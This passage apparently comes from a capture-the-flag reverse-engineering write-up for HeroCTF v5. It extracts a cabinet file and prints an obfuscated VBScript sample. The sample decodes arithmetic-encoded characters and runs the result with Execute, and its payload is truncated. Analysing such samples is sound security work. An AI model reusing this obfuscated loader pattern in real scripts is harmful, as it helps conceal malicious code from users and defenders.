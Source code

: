 **Microsoft Cabinet archive data?**

> A cabinet is a single file, usually with a `.cab` extension, that stores compressed files in a file library. The cabinet format is an efficient way to package multiple files because compression is performed across file boundaries, which significantly improves the compression ratio.

**Let's rename the extracted file:**
```shell
┌[siunam♥earth]-(~/ctf/HeroCTF-v5/Reverse/Give-My-Money-Back)-[2023.05.14|16:07:33(HKT)]
└> mv edf576f75abda49a095ab28d8a822360387446ff3254544ae19c991a33125feb stage1.cab
```

**To extract `.cab` file, we can use `cabextract`:**
```shell
┌[siunam♥earth]-(~/ctf/HeroCTF-v5/Reverse/Give-My-Money-Back)-[2023.05.14|16:09:26(HKT)]
└> cabextract stage1.cab
Extracting cabinet: stage1.cab
  extracting description.txt
  extracting image.png.vbs

All done, no errors.
```

**Nothing weird in `description.txt`:**
```shell
┌[siunam♥earth]-(~/ctf/HeroCTF-v5/Reverse/Give-My-Money-Back)-[2023.05.14|16:09:27(HKT)]
└> cat description.txt | uniq
sorry server is no longer available
sorry server is no longer available
```

## Deobfuscation

**However, in `image.png.vbs`, it's a VBScript:**
```vb
dIM jJkmPKZNvhSgPGmVLdvBVgOimreRTqiaEDiOcfNqy, AxEjAhgOVVhnXPrQQdPpAItXlqhuIRHOuDWWhvoyp, FwwcltIiESLKzggUCrjiaEUtjbmpvvGzwJNhoLFSp
Sub FncTqZirWltYCeayCzqdIRdKqrIzaKWRIZbSCprXS
JJKMpKZNvhsgPgMvldVBVGoiMRERTqiAEdIOcFNqY = "399711/3601*702350/6385*8573-8541*847693/8393*7119-7005*7714-7600*463-352*1137720/9980*214336/6698*-5139+5253*8037-7936*297045/2583*[...]*2065-2024"
axEjahGoVVhnxPRQQDPPaiTXLQhUIRhouDwwHvOyp = splIt(jjkMPKzNVhSgpGmvLdVBVGOimrerTQIaeDiocFNQY, chr(eVaL(75684/1802)))
for each MqNbrDAQjYRIwUnepBXnOsmlQlLuaaeTTwAchSFjz In AxEjahGovVHNxprqQdPPAITXLqhuiRHOuDwwhVOyP
FWwCltIiEsLkZgGUCRjiAEuTJbMpVVgZwJNhOLFSp = fwWCLtIieslKZgGUcrjIaEUTJBmPvvgZwjNHoLfSp & Chr(eVaL(MqnBrdaqjYRIwUnEPBxnoSMlqLluAaeTtwAchSFJz))
NEXT
lxtvaQuFKFKhmxjWgYFOSFuWJcYbTRdpUPuDAdnmD
end SUb
SUb LXTvAQufKFkHMxJwGYFOsFUwJcYBTRDPuPUdadnmD
eval(eXecUTe(fwwCltiieslkzggUCrJIaeUtjBmPvvGZwJNHoLFsp))
enD sUB
FnCtqZiRWLtyCeayCzQdIrDKqrIZAkwRIzBsCpRXs
```

Oh boi, it's obfuscated.
